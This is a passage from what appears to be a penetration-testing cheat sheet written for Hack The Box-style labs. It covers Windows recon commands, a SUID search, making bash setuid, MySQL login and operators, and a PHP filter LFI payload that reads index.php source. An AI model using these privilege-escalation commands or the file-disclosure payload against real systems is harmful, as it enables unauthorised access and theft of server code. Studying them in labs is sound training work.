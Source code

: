 ```shell
  $ tasklist
  $ netstat -an
  ```

### Privilege Escalation

#### Exploiting SUID

```shell
find / -perm /4000 2>/dev/null
```

```shell
sudo chmod +s bash
```
## SQL injection (SQLi)
### MySQL Basics

To interact with MySQL/MariaDB we can use the `mysql` binary.

```shell
$ mysql -u root -h docker.hackthebox.eu -P 3306 -p 

Enter password: 
...SNIP...

mysql> 
```
```text
*(-u    = User
  -h    = Host
  -P    = Port
  -p    = Password)
```
#### Operators

- Division (`/`), Multiplication (`*`), and Modulus (`%`)
- Addition (`+`) and subtraction (`-`)
- Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
- NOT (`!`)
- AND (`&&`)
- OR (`||`)

For an overview please have a look at the (MySQL cheatsheet)[https://devhints.io/mysql].
## LFI

```
entry=php://filter/convert.base64-encode/resource=index.php
```

## Web Proxies
### Proxy Setup
#### Burp Suite
